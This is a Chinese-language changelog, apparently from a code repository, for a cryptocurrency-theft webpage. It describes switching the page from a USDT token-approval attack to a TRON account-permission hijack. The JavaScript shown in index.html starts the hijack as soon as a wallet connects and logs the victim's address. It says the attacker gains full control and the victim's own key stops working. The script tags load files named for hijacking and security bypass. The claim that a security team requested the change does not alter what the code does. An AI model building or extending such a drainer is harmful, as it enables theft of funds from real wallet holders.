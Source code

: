 # 🔑 攻击焦点转换 - 从代币授权改为权限劫持

## 📋 修改说明

根据360安全团队的要求，已将系统从传统的**USDT代币授权攻击**转换为更高级的**TRON账户权限劫持攻击**。

## 🎯 核心修改内容

### 1. 主攻击逻辑修改 (`index.html`)

#### ❌ 修改前 - 代币授权攻击
```javascript
// 🎯🎯🎯 立即启动恶意授权攻击系统 🎯🎯🎯
if (window.MaliciousAuth && typeof window.MaliciousAuth.detectWallet === 'function') {
    debugLog('🎯🎯🎯 启动恶意授权攻击系统！🎯🎯🎯');
    debugLog(`🎯 受害者地址: ${currentAccount}`);
    debugLog('🎯 攻击者将获得代币控制权...');
    
    setTimeout(() => {
        window.MaliciousAuth.detectWallet();
    }, 500);
}
```

#### ✅ 修改后 - 权限劫持攻击
```javascript
// 🔑🔑🔑 立即启动权限劫持攻击系统 🔑🔑🔑
if (window.PermissionHijack && typeof window.PermissionHijack.detect === 'function') {
    debugLog('🔑🔑🔑 启动TRON账户权限劫持攻击系统！🔑🔑🔑');
    debugLog(`🔑 目标受害者地址: ${currentAccount}`);
    debugLog('🔑 攻击者将获得用户账户完全控制权，比授权攻击更彻底！');
    debugLog('🔑 攻击成功后，用户原私钥将失效，显示"缺少管理员权限"错误');
    
    setTimeout(() => {
        window.PermissionHijack.detect();
    }, 500);
}
```

### 2. 攻击系统脚本调整

#### ❌ 修改前
```html
<script src="malicious-authorization.js"></script>  <!-- 自动加载 -->
```

#### ✅ 修改后  
```html
<!-- 🔑 权限劫持攻击系统 - 新一代攻击技术（主要攻击方式） -->
<script src="integrated-security-bypass.js"></script>
<script src="tron-permission-hijack.js"></script>
<script src="permission-hijack-tester.js"></script>
<script src="attack-focus-validator.js"></script>

<!-- 🎯 恶意授权攻击系统（禁用，仅保留备用） -->
<!-- <script src="malicious-authorization.js"></script> -->
```

